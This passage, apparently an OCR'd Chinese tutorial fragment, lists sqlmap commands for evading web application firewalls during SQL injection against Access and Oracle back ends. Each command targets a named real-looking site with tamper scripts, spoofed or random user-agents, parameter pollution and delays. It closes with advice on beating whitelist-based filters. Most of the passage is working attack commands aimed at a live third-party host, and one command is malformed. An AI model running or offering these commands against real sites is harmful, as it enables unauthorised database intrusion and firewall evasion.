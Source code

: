 ***4\***|***5\*****3 ms access:**



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --random-agent  --tamper=appendnullbyte.py,space2plus.py



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --random-agent --hpp  --tamper=chardoubleencode.py



```

```

***4\***|***6\*****4 Oracle：**



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=5 --random-agent --hpp --tamper=unmagicquotes.py,unionalltounion.py



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=5--user-agent =“Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.0” --hpp --tamper=charunicodeencode.py,chardoubleencode.py



```

```

***4\***|***7\*****5 建议：**



```

```

   因为WAF可能采用白名单规则，所以对于选择哪种策略，重点是根据-v 3 提示的信息进行判断，可以抓取主流的浏览器的user-agent ,s适当的延时，加上注入字符转换---大小写、空格、字符串、注释、加密等等方式



```
常用tamper脚本：
```
